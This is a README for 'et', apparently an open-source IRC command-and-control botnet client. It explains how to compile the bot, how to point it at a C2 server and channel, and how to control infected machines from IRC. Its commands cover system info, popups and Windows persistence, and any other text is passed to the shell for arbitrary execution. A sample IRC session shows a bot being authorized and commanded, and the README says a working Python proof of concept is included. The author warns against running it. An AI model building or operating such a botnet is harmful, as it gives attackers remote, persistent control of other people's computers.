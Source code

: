 et - the extraterrestrial botnet
===

### What is it?
`et` is a dumb client to an IRC command-and-control server.

When activated, it "phones home" and awaits instructions from members of an IRC channel.

It can be instructed to retrieve system information and execute commands, among other things.

### Compilation

**IMPORTANT**: Many binary size reduction methods are not applied by default during *nix builds due to the wide variety of utilities/flags that provide that
functionality on different systems. For example, standard symbol stripping (-s) is not applied because OS X no longer uses (-s) to strip symbols.
To add your own size-optimization flags, either edit the makefile or feed them in by assigning to `LDFLAGS_NIX` while calling `make`.
In addition, on Windows, you can try using a third-party tool like [UPX](http://upx.sourceforge.net/) to further reduce executable size.

#### On *nix systems (Linux, BSD, OS X):
```bash
$ git clone https://github.com/woodruffw/et && cd et
$ make nix # compiles et in ./bin
```

#### On Windows:
Building on Windows requries `make` and `gcc`, both of which can be obtained through the [MinGW](http://www.mingw.org/) project.

Download the tarball, extract it somewhere, and run `mingw32-make` inside of that directory in CMD.exe. The `et.exe` binary will be left in "bin".


**IMPORTANT**: Do not actually run the resulting `et` binary, as it *WILL* open your computer to attack.

### Configuration

Many of `et`'s features can be configured in the *cnc_info.h* file under *./src*.

For example:
```C
#define IRC_SERVER "irc.example.com"
#define IRC_PORT 6667
#define IRC_CHANNEL "#yourchannel"
#define IRC_REPORT "hello!"
#define IRC_AUTH "super secret password"
```

Any changes made require recompilation.

### Usage
Controlling the `et` bots from the IRC server is very simple.

When each bot connects, it sends out a channel-wide message of the format:
```
et0000000: et0000000 phoning home
```

From that point on, the bot is ready to receive commands. There are a few built-in commands:
* `auth <password>` - Requests authorization to control the bot. If the password matches `IRC_AUTH` in *cnc_info.h*, authorization is granted.
* `deauth` - Deauthorizes control of the bot unconditionally. Once deauthorized, the bot may not execute any command but `auth`.
* `info` - Outputs a digest of system information. Supplied by `uname(3)` on Unix and Linux and `GetVersionEx`/`GetUserName` on Windows.
* `popup <message>` - **CURRENTLY WINDOWS ONLY**. Display a popup message on the client's screen.
* `persist` - **CURRENTLY WINDOWS ONLY**. Ensures that the `et` executable, if killed, will restart on the next login. 
* `depersist` - **CURRENTLY WINDOWS ONLY**. Does the opposite of `persist`, removing `et`'s persistence after logout.
* `kill` - Disconnects the bot from the IRC server. Unless scheduled otherwise on the system, the bot will never reconnect.

Aside from these four commands, all other commands passed to an `et` are passed directly to `popen(3)` (`_popen()` on Windows).

By default `deauth`, `info`, `kill`, and all other commands are restricted until the bot is authorized with `auth`.

Some examples, all from the IRC prompt:
```
et0000000: et0000000 phoning home
/msg et0000000 auth et-phone-home
et0000000: Successfully authorized. et0000000 listening.
/msg et0000000 info
et0000000: [some information]
/msg et0000000 pwd
et0000000: [the current working directory]
/msg et0000000 popup hello, i'm controlling your computer
/msg et0000000 kill
*et0000000 has quit ()
```

Currently, output from system commands is limited to approximately 512 characters. 

### Proof of Concept
The original PoC Python script can be found under *./src/poc/et.py*. Like the actual version, it does work and *WILL* expose your machine.

### Theoretical Limits
Because the IRC protocol limits nicks to 9 characters, only so many `et`s can operate within a single channel.

By default, the first two characters of an `et`'s nick will always be 'et,' meaning that at most 10 million `et`s can exist within a channel.
Furthermore, because I got lazy with the Windows version, the ID on Windows machines can only be in the range [0, (32768 << 8)] for a total number of 8,388,609 possible IDs on Windows.
Of course, because the trailing numbers are pseudorandom and not sequential, the actual point of collision is likely to be much lower than 10 million (or 8,388,609 for that matter).
On the other hand, `et` can be configured to "phone home" to other servers and channels, making the limit less relevant in practice.

### TODO
* Reduce binary size
* Limit message output to 510 characters (+ CR-LF) as per RFC 2812
* Prevent Windows CMD popups
* Add more built-in commands

### Contributing

`et` is licensed under the MIT licence. 

Please feel free to issue merge requests, even for small things. I appreciate all contributions.